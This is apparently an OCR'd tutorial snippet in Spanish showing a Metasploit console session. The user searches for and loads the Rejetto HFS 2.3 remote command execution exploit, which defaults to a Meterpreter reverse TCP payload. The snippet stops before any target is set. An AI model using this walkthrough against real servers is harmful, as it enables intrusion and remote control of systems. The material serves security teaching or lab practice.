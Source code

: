 ```bash
     __                                                                                                                                                                                                                                    
    /  \                                                                                                                                                                                                                                   
    |  |                                                                                                                                                                                                                                   
    @  @                                                                                                                                                                                                                                   
    |  |                                                                                                                                                                                                                                   
    || |/                                                                                                                                                                                                                                  
    || ||                                                                                                                                                                                                                                  
    |\_/|                                                                                                                                                                                                                                  
    \___/                                                                                                                                                                                                                                  
*
       =[ metasploit v6.3.4-dev                           ]
+ -- --=[ 2294 exploits - 1201 auxiliary - 409 post       ]
+ -- --=[ 968 payloads - 45 encoders - 11 nops            ]
+ -- --=[ 9 evasion                                       ]
.
Metasploit tip: Save the current environment with the 
save command, future console restarts will use this 
environment again
Metasploit Documentation: https://docs.metasploit.com/
```

* Buscando y usando un Exploit:

```bash
msf6 > search hfs 2.3
*
Matching Modules
================
   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/multi/http/git_client_command_exec  2014-12-18       excellent  No     Malicious Git and Mercurial HTTP Server For CVE-2014-9390
   1  exploit/windows/http/rejetto_hfs_exec       2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution
*
Interact with a module by name or index. For example info 1, use 1 or use exploit/windows/http/rejetto_hfs_exec
*
msf6 > use exploit/windows/http/rejetto_hfs_exec
*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/rejetto_hfs_exec) >
```
